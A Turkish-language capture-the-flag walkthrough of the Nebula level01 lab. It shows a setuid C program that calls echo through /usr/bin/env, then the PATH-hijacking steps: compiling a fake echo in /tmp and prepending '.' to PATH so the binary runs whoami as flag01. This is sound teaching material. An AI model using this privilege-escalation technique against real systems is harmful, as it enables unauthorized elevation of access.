

```bash
ssh level01@192.168.154.137 # [nebulaIP]
```
Bu seviyede aşağıdaki kodda bir zafiyet bulundugu ve bizden bulmamızı istiyor.

```c
int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

Koda gelirsek efektif user id atanmış. System ile /usr/bin/env altında echo komutunu çağırıyor.  
### [The disadvantage of #!/usr/bin/env python is that it will use whatever python executable appears first in the user's $PATH](https://unix.stackexchange.com/questions/29608/why-is-it-better-to-use-usr-bin-env-name-instead-of-path-to-name-as-my?utm_medium=organic&utm_source=google_rich_qa&utm_campaign=google_rich_qa)
Üstteki örneği seneryoya uyarlarsak env PATH te ilk gördüğü echo yu çalıştıracak. Bulunulan dizinde yazma iznimiz olmadığı için
tmp e geçip kendi echo muzu yazıp derliyoruz ve PATH i bulunduğumuz dizini en başa ekleyecek şekilde manipüle ediyoruz.

```bash
cd /tmp/
nano echo.c
gcc echo.c -o echo
export PATH=.:$PATH
```

```c
// bizim echo.c
#include <stdio.h>
void main() {
    system("whoami");
}
```


Sistemde istediğimiz komutu yetkili kullanıcı olarak çalıştırabilirdik ama biz sadece whoami çağırıp senaryoyu teyit ediyoruz.
Görüldüğü üzere level01 ken zafiyetli flag01 i çalıştırdığımızda bizim echo muzun whoami a flag01 olarak çıktı verdiğini görüyoruz.
